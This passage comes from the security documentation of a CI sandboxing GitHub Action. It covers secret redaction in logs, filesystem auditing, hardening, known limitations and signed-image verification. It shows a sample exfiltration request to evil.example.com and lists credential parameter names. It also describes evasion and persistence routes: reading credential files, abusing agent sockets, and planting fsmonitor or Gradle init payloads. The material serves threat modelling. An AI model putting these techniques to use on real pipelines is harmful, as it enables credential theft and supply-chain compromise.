which leaves the ones it does not: a presigned URL's signature, a token minted while the step ran,
or a secret whose URL-encoded form no longer matches what was registered.

The value of a query parameter named `access_key`, `access_token`, `api_key`, `api_token`, `auth`,
`authorization`, `auth_token`, `client_secret`, `code`, `credential`, `credentials`, `id_token`,
`jwt`, `key`, `passwd`, `password`, `pat`, `private_token`, `pwd`, `refresh_token`, `secret`,
`session`, `session_token`, `sig`, `signature`, `subscription-key`, `token`, `x-amz-security-token`,
`x-amz-signature`, `x-api-key` or `x-goog-signature` is therefore replaced. The name is matched
ignoring case, `-`, `_`, `.` and any trailing `[...]`, so `api_key`, `api-key`, `api.key`, `apiKey`,
`APIKEY` and `api_key[0][]` are one name. What the brackets hold is not looked at, so `user[password]`
keeps its value. A parameter starts after `&`, `;` or any `?`, so one in a URL carried inside
another's value is replaced too. The replaced value runs to the next `&`, so a `;` or `?` inside a
secret does not leave the rest of it showing:

```
✅ 00:04.212: GET https://cdn.example.com/x.tar.gz?X-Amz-Signature=***&X-Amz-Expires=3600 -> 200 (4.1MB)
🚫 00:05.003: POST https://evil.example.com/?d=BASE64PAYLOAD -> not-allowed
```

Everything else is printed as it was sent, parameter names included, so most of what a refused
request tried to send is still there. Two things this does not cover: a credential in the path,
which `allowed_url_rules` is written against and so cannot be hidden, and one in a parameter the
list does not name. It also replaces an exfiltration payload the sender happened to name `code` or
`key`, so **read a suspected attempt out of the
[traffic artifact](./reference.md#traffic-artifact)**, which keeps every value verbatim, rather than
out of the summary.

An `allowed_url_rules` block suggested by an audit run never carries a query at all: rules match on
the path, and a recorded query is as likely to hold a one-off token as anything reusable.

## Filesystem audit

`filesystem_audit: record` records what the step touches; it never blocks an access, so it is a
visibility aid, not a control. What follows is what the watched step itself can do to the record.

**Altering the record.** The tracer runs as root on the runner host, outside the sandbox, and is
watching the sandbox's cgroup before the step starts. It writes under `/var/tmp/buildcage-<uid>`,
which every sandbox sees only as a tmpfs it cannot write to, holding nothing but its own read-only
`exec/`, even under `write_through: /`. The step cannot signal or trace the tracer, which is outside
its PID namespace, and the report is rendered on the host after the step exits. A process running
as the same user outside any sandbox can still replace the recording before it is read, the same
accepted limitation as the staging directory under
[What the sandbox does not stop](#what-the-sandbox-does-not-stop).

**Reading another step's record.** No sandbox can, a concurrent one included. A process running as
the same user outside any sandbox can, as can a job sharing the machine and the user, which
[Where it will not run](#where-it-will-not-run) rules out. The uploaded artifact can be downloaded
by any job in the run and anyone who can read the repository until it expires. It leaves out each
program's arguments, but not the names commands pass for files: a secret a command tries to open,
or uses as a symlink's target, is kept.

**Falsifying what it says.** A successful access and a program the step ran are recorded with the
path the kernel resolved. A delete, move, mkdir, mknod, symlink, link, chmod, chown or truncate
counts as done only if its syscall succeeds; one the kernel refuses is recorded as failed. A call
that fails before reaching its file, and an attribute change through `utimensat`, `utime`,
`utimes`, `futimesat`, `setxattr` or `lsetxattr`, are recorded under the name the command passed,
joined to its working directory or directory descriptor without resolving `..`; the artifact keeps
that name as `name` where it differs from `path`. These names are best-effort: apart from a failed
open's, which the kernel copied, they are read from the command's memory when the call returns, so
another thread can rewrite one first, or change directory so that a relative one is joined to
another. A path too deep to record in full is shown cut, with `…/`. A row's command name is the one
the process gave itself, so it says which process acted, not which binary, and a process named
`run-script.sh` is shown as the step's shell, `bash`. A control, format or separator character, or
a backslash, in a name is shown escaped, so no name can rewrite the Job Summary.

**Going unrecorded.** The step cannot leave the cgroup: it sees the cgroup filesystem read-only and
holds no capability. Nor can it change which records count as its own: after its shell starts,
everything is the step's except the sandbox init's records and the shell reading its script, however
the step arranges its processes or spells a path. What it can do:

- Hand the work to a process outside the sandbox, such as an `ssh-agent` or `gpg-agent` it reaches
  over a Unix socket.
- Have the sandbox init act for it, on a self-hosted runner with `kernel.yama.ptrace_scope=0`: the
  init runs as the step's user, so the step can trace it, and the init's own records are left out.
  GitHub-hosted runners only let a process trace its descendants.
- Use an operation the tracer does not record: a change through a descriptor inherited across
  `exec`, an extended attribute change other than through `setxattr` or `lsetxattr`, a failed
  `exec`, or a `mkdir`, `mknod`, `symlink`, `link` or `truncate` that fails before reaching its
  file, such as on a name that does not exist.
- Flood the tracer until its buffers fill. What did not fit is lost, but the summary then says the
  record is incomplete, as it does when the tracer did not stop cleanly. Flooding can hide which
  accesses happened, not that some are missing.

Where the tracer cannot start or cannot attach every probe, for want of cgroup v2, BTF, tracefs or
Linux 5.17, the step fails before the command runs rather than keep a partial record.

## Hardening

Buildcage runs against the command you already have, and an allowlist generated from an audit run
already blocks every destination the audit did not record. Going further is about shrinking the set
of services that stay reachable, which is the [structural limit](#threat-model) above. Weigh what
follows against what the step has access to.

### Keep each rule as narrow as it can be

An audit run only ever emits the exact `host:port` pairs it observed. Wildcards and `:*` ports come
from broadening a rule by hand, and each one covers destinations the command never asked for. Where
a broad rule exists, it is worth checking whether the command can be changed instead.

Pay particular attention to general-purpose destinations: a gist host, object storage, or an API
that can create repositories. They accept uploads as readily as they serve downloads, which is what
makes them useful for sending data out.

A wildcard host widens the DNS side too. The resolver inside the sandbox answers locally and forwards
nothing (see [DNS never leaves the job](#dns-never-leaves-the-job)), but a request the rules admit is
resolved upstream by the proxy against the runner's own DNS before it connects. Under `*.example.com`
a name like `<data>.example.com` is resolved the moment the request is allowed, so its labels reach
that domain's authoritative nameserver even if the request is then refused on its path. In `audit`,
where nothing is refused, every name the command asks for is resolved this way. A literal host, or a
narrow wildcard, limits which names leave the job.

### Reduce what has to be reachable

Each step carries its own allowlist, so work that needs a wide one can be separated from work that
does not. Fetching dependencies is usually what puts a package registry on the list:

```yaml
- name: Install
  uses: buildcage/isolated-run@<sha>
  with:
    allowed_https_rules: registry.npmjs.org:443
    run: npm ci --ignore-scripts

- name: Build and test
  uses: buildcage/isolated-run@<sha>
  with:
    allowed_https_rules: "" # nothing
    run: |
      npm run build
      npm test
```

This only helps when fetching does not itself execute dependency code. `--ignore-scripts` makes that
explicit rather than leaning on npm's default, and it is what keeps the step with the registry and
the step running third-party code separate. Where fetching does run third-party code, such as a
`pip install` that builds an sdist or a Cargo build script, the split moves nothing, because the
code still runs where the network is.

A mirror configured as a read-only pull-through cache serves upstream packages on demand and accepts
no publishes, so nothing can be uploaded to the destination on your allowlist. Running one is a
bigger commitment than anything else in this section.

### Keep the rest of your supply chain practice

Pinning versions, lockfiles, review, least-privilege tokens, and a dependency cooldown each cover
something an allowlist does not. Buildcage is one layer among them, not a replacement for any.

## Known Limitations

### What the sandbox does not stop

- **Reading credentials.** A compromised dependency can read `~/.aws/credentials`,
  `~/.docker/config.json` or any other local credential file; it just cannot send them outside the
  allowlist, in either `filesystem_mode`. The same reach extends to an agent socket the workflow
  started for itself, an `ssh-agent` holding a deploy key or a `gpg-agent` holding a signing key: a
  read-only mount does not stop `connect(2)` on a live Unix socket, and a network namespace has
  nothing to do with a pathname `AF_UNIX` one. The command never gets the private key, which is the
  point of an agent, but it can have the agent sign whatever it likes while the step runs. Where the
  agent is there for another step, don't hand it to this one: `SSH_AUTH_SOCK: ""` in the step's own
  `env:` passes an empty value through, which `ssh` treats as no agent at all.
- **Planting something for a later step.** The filesystem is read-only outside
  `$GITHUB_WORKSPACE`/`$HOME`/`/tmp`/`$RUNNER_TEMP`, which is also where it can persist.
  `GITHUB_OUTPUT` lives under `$RUNNER_TEMP`, so the command can set an output for later steps
  exactly as an un-sandboxed one could, and the same goes for `~/.bashrc`, `~/.npmrc` and anything
  else under a writable exception, a later step's `config_file` included. `GITHUB_ENV`,
  `GITHUB_PATH` and `GITHUB_STATE` are the exception: each is read-only inside the sandbox in either
  mode and mounted over itself, and each directory between it and the outermost path above it whose
  writes persist is made a mount point, so none of them can be renamed or replaced. One reached
  through a symlink in such a path fails the step, and one the host also shows at a second path
  through a bind mount is read-only there too. The runner's install directory and its
  `_actions` directory, which later steps and post steps run code from, are protected the same way.
  What `GITHUB_ENV` and `GITHUB_PATH` set reaches every later step and post step at once, and
  `write_through:` can open either by naming it. Only this action's post step reads `GITHUB_STATE`.
  Workflow commands printed to stdout are not stopped: in a job that sets
  `ACTIONS_ALLOW_UNSECURE_COMMANDS: true`, `::set-env::` and `::add-path::` reach later steps the
  way the two files would.
  `filesystem_mode: ephemeral` closes this off for everything except what `write_through:` names.
  Naming only the outputs a later step needs, such as `./dist`, also discards a payload planted
  elsewhere in `$GITHUB_WORKSPACE`. A named path is as exposed as in `persistent` mode.

  That decides how the step is set up. Wrapping every untrusted step is not the way out: a payload
  left in `$HOME`, such as a `core.fsmonitor` in `~/.gitconfig` or a script in `~/.gradle/init.d`,
  runs inside the next step's sandbox with that step's secrets and the hosts it allows. Making it
  the last step in the job does not close it off either: every action's post step runs after the
  last step, outside any sandbox, with whatever it left in `$HOME`. What holds is
  `filesystem_mode: ephemeral` with `write_through:` narrowed to the outputs the step really has to
  produce, leaving out `$HOME`.

- **Appending to the Job Summary.** The report is rendered from the runner host after the command
  has exited, and a name or URL is escaped before it is written into a table, so the command cannot
  edit its own report. What it can do in `persistent` mode is append to `$GITHUB_STEP_SUMMARY`
  beforehand and leave markdown of its own beside the real report. Removing or locking the file
  instead leaves the report nowhere to go, which fails the step under `restrict` with
  `fail_on_blocked`. Where the report is meant to be an audit trail, take it from
  `upload_traffic_artifact: true` instead: the JSON is uploaded when the step ends, and is not a
  file a later step can append a line to.
- **Exhausting the host.** The OCI spec sets no `linux.resources`, so there is no memory, pids or
  CPU ceiling, and capability bounding and seccomp cannot close this either, since a legitimate
  build calls `fork(2)` and `mmap(2)` freely. A fork bomb consumes host memory or the process table
  until something gives out. Wrapping a step does not change its exposure here: on a cgroup v2 host
  the sandbox's cgroup is made under the runner's own, so the limits on the runner's service reach
  it as they reach an un-sandboxed `run:` step. On GitHub-hosted runners that stays inside the job's
  disposable VM; bounding it on a shared self-hosted runner is a runner-service concern, such as
  `MemoryMax=` and `TasksMax=` on the runner's systemd unit or a slice around it.
- **Reading a step's staging directory from outside any sandbox.** `/var/tmp/buildcage-<uid>` is
  hidden from every sandbox, which sees only its own read-only `exec/` there, but a process running
  as the same user outside one can still read it. That is the same accepted limitation as credential retrieval above.
- **`filesystem_audit` records, it does not enforce.** It never blocks an access. See
  [Filesystem audit](#filesystem-audit) for what its record can be trusted for.

### Where it will not run

- **Linux only**, with passwordless `sudo` for the isolation setup (network namespace, veth,
  runc) and a working Docker installation for the proxy container, on Docker Engine 25.0 or
  later with Compose v2.20.2 or later. All are the default on GitHub-hosted `ubuntu-*` runners, but
  not on lightweight images such as `ubuntu-slim`, which ships a client with no daemon.
- **Rootful Docker.** The isolation joins the proxy container's netns through Docker's own
  `NetworkSettings.SandboxKey` path, which under rootless Docker or `userns-remap` may live inside a
  mount namespace of its own and not be reachable from the host. Those setups are not supported.
- **Not from inside the isolated command.** The primary GID substitution and the empty `/run`
  together mean the command can neither reach a runtime socket through group membership nor
  find one at its usual path, so a step that itself needs to invoke `docker` cannot be wrapped.
- **`filesystem_mode: ephemeral` needs overlayfs support on the runner's own filesystem**, checked
  by a preflight probe so an unsupported runner fails with a clear error. It is known to fail where
  the runner process itself runs inside a container whose root filesystem is overlayfs, since an
  overlay mount's `upperdir` cannot sit on overlayfs. The probe's leftovers are removed with
  `sudo rm -rf`, which the mode's own cleanup needs later anyway, so a too-narrow sudoers scope
  fails the preflight as well. `persistent` remains available on any supported runner.
- **`/var/tmp` must be reached without a symlink**, since runc refuses a sandbox root whose path
  goes through one. Otherwise the step fails before writing anything there, with an error saying
  where `/var/tmp` resolves.
- **Not on a host shared with other local users**, ideally. `/var/tmp` is world-writable, so another
  unprivileged local account could pre-create `/var/tmp/buildcage-<uid>` as a symlink or a
  world-writable directory and redirect the OCI bundle, the root-run `mount --rbind /` and cleanup's
  `sudo umount`/`rm -rf`. A separate actor already on the host is outside this action's threat model,
  but the bar here is only an ordinary local account, so the base directory's owner, type and mode
  are checked at startup and the action refuses to proceed rather than reuse an unexpected one.
  Prefer a dedicated, single-tenant runner over relying on that check alone.
- **Not beside another job running as the same user on the same machine.** This can only happen on
  a self-hosted runner, for example several runners registered under one account on one machine;
  a GitHub-hosted runner gives every job a fresh virtual machine. The other job's unwrapped steps
  can write wherever this step can, so the sandbox does not separate the two jobs. They can also
  swap a path for a symlink after the step has checked it and before the path is used: a
  `write_through:` entry before runc mounts it, or, under `inspect`, the NSS database before what
  the command wrote is written back there. That gains them nothing they could not do as the same
  user directly. Run each job in an environment of its own, as GitHub-hosted runners do (a
  self-hosted runner that takes one job and is then replaced), or give each runner its own user
  account.

### Rough edges

- **A name with no IPv4 address never resolves.** The proxy resolves and connects over IPv4 only, so
  an allowed name with AAAA records and no A record is refused on every attempt, in `audit` too, and
  reported as `dns-failed` in the same words a lookup that merely timed out gets. No rule clears it,
  since nothing about it is a rule decision. Where the host offers an IPv4 address under a different
  name, allow that one instead.
- **`write_through:` cannot name the sandbox's own scratch directory.** An entry naming
  `/var/tmp/buildcage-<uid>` or an ancestor of it is rejected outright, since the writable
  exceptions are recursive bind-mounts and that directory holds the run's `mount --rbind /` rootfs,
  so allowing it would re-expose the whole host `/` as a writable copy. Entries are normalized
  first, so `/var/tmp/./buildcage-<uid>` is caught by the same check. This guards against an
  operator's `write_through:` value, not against the command itself. The literal `/` is the
  documented opt-out from the read-only restriction and skips the guard by design; an entry that
  only _resolves_ to `/` is rejected rather than read as that opt-out.
- **A `write_through:` directory removed on the runner is detached from every sandbox binding it.**
  Buildcage never removes one, even one it created. Nothing stops a parallel step outside any
  sandbox, or a `persistent` sandbox that can write the parent, from removing it; the affected
  step's later writes there may then not reach the runner.
- **`$XDG_RUNTIME_DIR` is missing or empty inside the sandbox**: under `/run` it does not exist,
  since `/run` is an empty tmpfs there, and anywhere else it is masked with an empty directory. A
  tool expecting a session keyring or its own scratch state there finds nothing and fails outright
  rather than silently landing on the host's real directory. Only naming it in `write_through:`
  brings it back.
- **The post step validates `$GITHUB_STATE` rather than trusting it.** The command cannot write that
  file, but a process outside the sandbox, such as one an earlier step left running, can overwrite
  what this action wrote there, and the command can still print a `::save-state::` line, which the
  runner applies to this action's state. The post step checks that the container name it reads back
  is shaped like one this action generates, computes its own Compose project name rather than
  trusting a stored value, and reads back which step started that container, recorded as a label
  from environment the runner sets and the command cannot forge. Another Buildcage step's container
  is left alone, a concurrent matrix leg's on the same host included. A value that fails either
  check is treated as absent: cleanup is skipped with an `::error::` rather than guessed at, which
  leaves the proxy container and its scratch directory behind on a self-hosted runner.
- **Per-step overhead.** Each step starts and stops its own proxy container rather than sharing one
  across the job, which keeps allowlists independently configurable and the report's
  step-to-container mapping unambiguous, at the cost of startup time on jobs with many isolated
  steps.

## Image Provenance Verification

isolated-run decides what a step can reach, so it is fair to ask what says the isolated-run image is
the one this repository published.

Each release's image is bound to the CI workflow that built it by [Sigstore](https://sigstore.dev)
keyless signing, and the action verifies that binding at startup. The signature covers the exact
source commit SHA, so a tampered or substituted image fails verification before it is used.

### How it works

**At release time**, the `docker-publish.yml` workflow builds and signs the image using a short-lived
OIDC identity issued by GitHub Actions. The signature is stored as a **Sigstore Bundle v0.3**
attached to the image through the OCI 1.1 Referrers API in GHCR. The bundle holds the signature, a
Fulcio leaf certificate carrying the workflow identity, and a Rekor transparency log entry. Signing
waits on a run of the image just pushed, so an image that does not enforce is never signed, and an
unsigned image is one the action refuses.

**At action startup** (the `main` phase, so `docker/login-action` has already stored registry
credentials), the action verifies the image entirely in-process using `@sigstore/verify`,
`@sigstore/tuf` and `@sigstore/bundle`. No external binary such as cosign is downloaded or required.
It resolves the tag to a manifest digest and fetches the bundle for that digest from the Referrers
API. A single `verifyBundle()` call then enforces every identity check at once: the OIDC issuer, the
signing workflow and its ref or version, and the source commit SHA carried in Fulcio OID
`1.3.6.1.4.1.57264.1.13`. That is the equivalent of cosign's `--certificate-oidc-issuer`,
`--certificate-identity-regexp` and `--certificate-github-workflow-sha`.

Two assertions then run against the verified bundle, both fail-closed:

- **The signed digest must equal the digest the tag resolved to.** It is read from the verified
  DSSE envelope, and a bundle that is not a DSSE envelope is rejected. This closes the attribution
  gap the Referrers API leaves open.
- **The image's `org.opencontainers.image.version` must name the engine this run asked for.** The
  signature covers a digest, not a tag, so without this an `-inspect` tag repointed at the same
  release's `universal` image would run without URL and TLS enforcement.

### Identity matching by reference type

| How the action is pinned       | Identity check                                              | Mechanism                                                              |
| ------------------------------ | ----------------------------------------------------------- | ---------------------------------------------------------------------- |
| `@<40-char SHA>`               | Source Repository Digest **strictly equals** the pinned SHA | `certificateOIDs`: Fulcio OID `1.3.6.1.4.1.57264.1.13`, raw byte match |
| `@v2.0.0` (exact version)      | SAN matches `...@refs/tags/v2\.0\.0(\.\|$)`                 | `certificateIdentityURI` regexp                                        |
| `@v2` (major-floating)         | SAN matches `...@refs/tags/v2(\.\|$)`                       | `certificateIdentityURI` regexp                                        |
| A branch name, or a local path | **Hard fail**: pin to a version tag or commit SHA           |                                                                        |

The owner and repository in the SAN are matched ignoring case, since GitHub resolves `uses:` that
way and passes the name on as written. The workflow path and the tag must match exactly.

For the strongest guarantee, pin to a **commit SHA**:

```yaml
uses: buildcage/isolated-run@<40-char-sha> # vX.Y.Z
```

The SHA check is the core of tamper detection: it confirms the image was built from exactly the same
source tree as the pinned action commit. An image built from a different commit fails verification
even if it is signed. An attacker who can push to `ghcr.io/buildcage/isolated-run` without
compromising the repository cannot produce a valid bundle, since the Fulcio certificate requires an
OIDC token issued during a real workflow run on the real repository.

### Verification Limitations

Verification establishes where the image came from. Here is what it leaves uncovered.

- **The run before signing is a smoke test, not the test suite.** It proves the released image
  starts and enforces on a single allowed and a single refused host, per engine and per
  architecture. The scenario coverage in `test/` runs against an image built from the branch, and
  the parts of it that need the fixture origin cannot run against a released image at all.
- **A signature says who built the image, not what the code does.** A release published by someone
  who has taken over that identity verifies just as cleanly as a legitimate one. Two things limit
  the damage: with a commit-SHA pin, a new release cannot reach your workflow until you change the
  pin yourself, and every signature is recorded in the Rekor transparency log, so an unintended
  release is discoverable after the fact.
- **A floating tag is a pointer someone else moves.** Under `@v2` or `@v2.0` the signing identity
  accepts any release in that series, so the tag can also be moved back to an older one. Both the
  registry tag and the git tag are writable by whoever publishes releases, which is the reason to
  prefer a commit SHA: it puts you in charge of when you move.
- **The registry decides which signed image gets verified.** Everything after the tag lookup is
  bound to the digest it returned, so content substituted later makes verification **fail** rather
  than falsely pass, leaving no time-of-check/time-of-use gap. What remains is the tag lookup
  itself: an attacker with write access to the registry could repoint the tag, but only at an image
  this repository's release workflow genuinely signed.
- **Sigstore has to be reachable.** Verification depends on the Rekor transparency log and the
  Fulcio CA, and fetches the TUF trust root at verification time. An outage there fails the action
  rather than skipping the check. Each fetch starts from the root embedded in the action, never
  from one an earlier job left on a persistent runner.
- **A build-time test hook exists, but not in what you run.**
  `BUILDCAGE_BUILD_TEST_HOOKS=1 vp run build` produces a `dist/` where a `BUILDCAGE_LOCAL_IMAGE_REF`
  override can point the action at an unpublished image, used only by this repo's own CI and local
  development. Tree-shaking drops that module out of every normal build, and a CI check inspects the
  published `dist/` to confirm it names none of the test-hook variables, so no `env:` a consumer
  sets can reach it.
  See [development.md](./development.md#local-development).

Tampering with the proxy container after startup is a separate question, and is covered under
[Threat model](#threat-model) above.
